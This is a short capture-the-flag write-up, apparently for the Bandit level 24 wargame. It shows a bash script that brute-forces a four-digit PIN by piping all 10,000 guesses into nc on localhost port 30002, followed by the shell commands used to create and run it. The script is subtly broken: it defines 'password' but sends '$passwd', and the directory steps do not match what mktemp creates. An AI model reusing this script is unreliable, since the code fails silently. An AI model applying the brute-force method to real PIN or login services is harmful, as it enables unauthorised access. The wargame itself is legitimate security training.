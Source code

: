 # level24

## Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution
Here we should write a script that generates all the combinations of 4 digit pin then append this with password with a space and then send it to the 30002 port
here first i made a temorary file and then create a script file 
write this code of line in the file using nano
Following is  the script
```
#!/bin/bash
password="currentPssword"
for i in {0000..9999}; do
            echo "$passwd $i"
done | nc localhost 30002  | grep -v Wrong | grep -v "I am the pincode checker for user bandit25"
```
then i changed the mode of script file and run it
here is the solutions
```
mktemp -d
cd temp-d
touch script.sh
nano script.sh
ls -la script.sh
chmod +x script.sh
./script.sh
rm script.sh
cd ~
rmdir temporaryDirectoryYouCreated

```